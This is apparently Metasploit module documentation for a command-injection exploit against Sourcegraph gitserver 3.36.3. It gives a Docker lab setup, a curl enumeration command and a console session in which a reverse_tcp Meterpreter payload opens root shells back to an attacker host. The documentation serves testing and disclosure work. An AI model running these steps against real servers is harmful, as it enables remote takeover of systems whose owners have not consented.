 ## Vulnerable Application

A vulnerability exists within Sourcegraph's gitserver component that allows a remote attacker to execute
arbitrary OS commands by modifying the core.sshCommand value within the git configuration. This command can
then be triggered on demand by executing a git push operation. The vulnerability was patched by introducing a
feature flag in version 3.37.0. This flag must be enabled for the protections to be in place which filter the
commands that are able to be executed through the git exec REST API.

The cloned repositories can be enumerated from the `/list` endpoint using the curl command:
`curl http://$target:3178/list?cloned=true`

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application (see detailed Docker Installation section below)
2. Start msfconsole
3. Do: `use exploits/linux/http/sourcegraph_gitserver_sshcmd`
4. Set the `RHOSTS`, `PAYLOAD` and any payload related options that are necessary
5. Do: `run`

### Docker Installation
1. Run the following command to start the all-inclusive docker container for Sourcegraph v3.36.3.

    ```
    docker run \
      --publish 3178:3178 \
      --publish 7080:7080 \
      --publish 127.0.0.1:3370:3370 \
      --rm \
      --volume /tmp/sourcegraph/config:/etc/sourcegraph \
      --volume /tmp/sourcegraph/data:/var/opt/sourcegraph \
      sourcegraph/server:3.36.3
    ```
2. Once the service has started, navigate to the webinterface at http://localhost:7080
3. When prompted, create an administrator's account
4. At least one git repository must be added, complete the following steps to add one.
    1. Navigate to `Repositories > Managed code hosts`
    2. Select "Generic Git host"
    3. When prompted, use the following example JSON code to clone Metasploit.

        ```
        {
          "url": "https://github.com/",
          "repos": [
            "rapid7/metasploit-framework.git"
          ]
        }
       ```

## Options

### EXISTING_REPO

An existing, cloned repository. If this value is not set, a random one will be selected from the server.

## Scenarios

### Docker v3.36.3

```
msf > use exploit/linux/http/sourcegraph_gitserver_sshcmd
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > set TARGET Unix\ Command 
TARGET => Unix Command
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > check
[+] 192.168.159.128:3178 - The target is vulnerable. Successfully set core.sshCommand.
msf exploit(linux/http/sourcegraph_gitserver_sshcmd) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully set core.sshCommand.
[*] Using automatically identified repository: github.com/zerosteiner/gh-sandbox
[*] Executing Unix Command target
[*] Sending stage (40168 bytes) to 172.17.0.2
[*] Sending stage (40168 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 172.17.0.2:59116) at 2022-07-08 17:23:15 -0400
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:59124) at 2022-07-08 17:23:15 -0400

meterpreter > 
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : caab8e904df4
OS              : Linux 5.17.12-100.fc34.x86_64 #1 SMP PREEMPT Mon May 30 17:47:02 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```
